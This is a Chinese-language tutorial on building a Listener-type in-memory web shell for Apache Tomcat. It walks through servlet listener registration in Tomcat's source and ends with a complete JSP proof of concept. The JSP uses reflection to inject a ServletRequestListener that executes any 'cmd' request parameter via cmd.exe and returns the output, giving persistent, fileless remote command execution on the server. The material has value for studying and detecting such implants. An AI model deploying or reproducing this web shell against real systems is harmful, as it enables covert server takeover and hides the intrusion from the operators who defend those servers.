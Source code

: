 # 0x01 Listener First Shoot

1. 引入servlet依赖

   ```xml
   <dependency>
       <groupId>javax.servlet</groupId>
       <artifactId>javax.servlet-api</artifactId>
       <version>4.0.1</version>
   </dependency>
   <dependency>
       <groupId>org.apache.tomcat</groupId>
       <artifactId>tomcat-catalina</artifactId>
       <version>9.0.20</version>
   </dependency>
   ```

2. 创建监听器

对应`Application`、`Session` 和 `Request` 三大对象

监听器有三种：ServletContextListener、HttpSessionListener、ServletRequestListener

由于每次访问都会涉及Request对象的监听，ServletRequestListener监听器最适合作为内存马

这里以`ServletRequestListener`为例，自己定义的监听器需要实现这个接口。

* 自定义监听器

  ```java
  package listeners;
  
  import javax.servlet.ServletRequestEvent;
  import javax.servlet.ServletRequestListener;
  
  public class MyListener implements ServletRequestListener {
      public void requestDestroyed(ServletRequestEvent sre) {
          System.out.println("MyListener is destroyed");
      }
  
      public void requestInitialized(ServletRequestEvent sre) {
          System.out.println("MyListener is initializing");
      }
  }
  ```

* 注册监听器（web.xml）

  ```xml
    <listener>
      <listener-class>listeners.MyListener</listener-class>
    </listener>
  ```

随便发起一次请求，发现控制台有打印



# 0x02 Create Listener Memory Shell

既然要注入Listener型内存马，我们就得思考Listener是怎么被注册到服务的。

我们是在web.xml配置文件中注册的监听器，因此程序肯定首先会读取web.xml这个文件解析里面的内容。在启动应用的时候，ContextConfig类会去读取配置文件

`org.apache.catalina.startup.ContextConfig#configureContext`传入了webxml参数

```java
private void configureContext(WebXml webxml) {
    // .....
    for (String listener : webxml.getListeners()) {
            context.addApplicationListener(listener);
    }
    // .....
}
```

`org.apache.catalina.Context#addApplicationListener`是一个接口，查看其实现类`StandardContext`

```java
public Object[] getApplicationEventListeners() {
    return applicationEventListenersList.toArray();
}
public void addApplicationEventListener(Object listener) {
    applicationEventListenersList.add(listener);
}
public boolean fireRequestInitEvent(ServletRequest request) {
    Object instances[] = getApplicationEventListeners();

    if ((instances != null) && (instances.length > 0)) {
        ServletRequestEvent event =
            new ServletRequestEvent(getServletContext(), request);
        for (int i = 0; i < instances.length; i++) {
            if (instances[i] == null)
                continue;
            if (!(instances[i] instanceof ServletRequestListener))
                continue;
            ServletRequestListener listener =
                (ServletRequestListener) instances[i];

            try {
                listener.requestInitialized(event);
                \\....
            }
            \\...
        }
}
```

通过`StandardContext#addApplicationEventListener`将我们构造的Listener放进去

# 0x03 POC

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class MyListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {}

        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    // cmd /c dir 是执行完dir命令后关闭命令窗口
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\n");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    // 命令执行结果写回Response
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener myListener = new MyListener();
    context.addApplicationEventListener(myListener);
%>
```

